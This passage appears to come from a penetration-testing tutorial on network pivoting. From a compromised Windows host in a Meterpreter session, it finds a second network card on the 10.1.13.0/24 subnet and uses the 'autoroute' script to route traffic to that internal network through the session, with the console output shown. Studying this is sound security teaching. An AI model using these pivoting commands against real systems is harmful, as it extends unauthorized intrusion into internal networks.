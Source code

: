 From the IP address of the computer we are logged in to, we understand that the network card we are connected to is the card named `Citrix XenServer PV Ethernet Adapter - Packet Scheduler Miniport`.

However, there are 2 more cards in the system named

`MS TCP Loopback interface` and

`Citrix XenServer PV Ethernet Adapter #2 - Packet Scheduler Miniport`

The interface named `MS TCP Loopback interface` is the communication tool used as `localhost` anyway.

So, let's focus on the other network configuration named `Citrix XenServer PV Ethernet Adapter #2 - Packet Scheduler Miniport`.

```bash
Citrix XenServer PV Ethernet Adapter #2 - Packet Scheduler Miniport
Hardware MAC: d2:d6:70:fa:de:65
IP Address : 10.1.13.3
Netmask : 255.255.255.0
```

As far as we understand from this information, the IP address of the card named `Citrix XenServer PV Ethernet Adapter #2 - Packet Scheduler Miniport` is `10.1.13.3`. Then we understand that IP addresses in the range of `10.1.13.1-255` are given to those connected to this network. In CIDR format, this is shown as `10.1.13.0/24`.

One of the possibilities provided by Meterpreter is the `autoroute` script code. Let's view the help about autoroute.

```bash
meterpreter > run autoroute -h
> Usage: run autoroute [-r] -s subnet -n netmask
>Examples:
> run autoroute -s 10.1.1.0 -n 255.255.255.0 # Add a route to 10.10.10.1/255.255.255.0
> run autoroute -s 10.10.10.1 # Netmask defaults to 255.255.255.0
> run autoroute -s 10.10.10.1/24 # CIDR notation is also okay
> run autoroute -p # Print active routing table
> run autoroute -d -s 10.10.10.1 # Deletes the 10.10.10.1/255.255.255.0 route
> Use the "route" and "ipconfig" Meterpreter commands to learn about available routes
```

Now let's do automatic routing. For this we use the following command.

```bash
meterpreter > run autoroute -s 10.1.13.0/24
> Adding a route to 10.1.13.0/255.255.255.0...
[+] Added route to 10.1.13.0/255.255.255.0 via 192.168.1.201
> Use the -p option to list all active routes
```

Route is done. Let's check.

```bash
meterpreter > run autoroute -p

Active Routing Table
**=====================**

Subnet Netmask Gateway
------ ------- -------
10.1.13.0 255.255.255.0 Session 1

meterpreter >
```
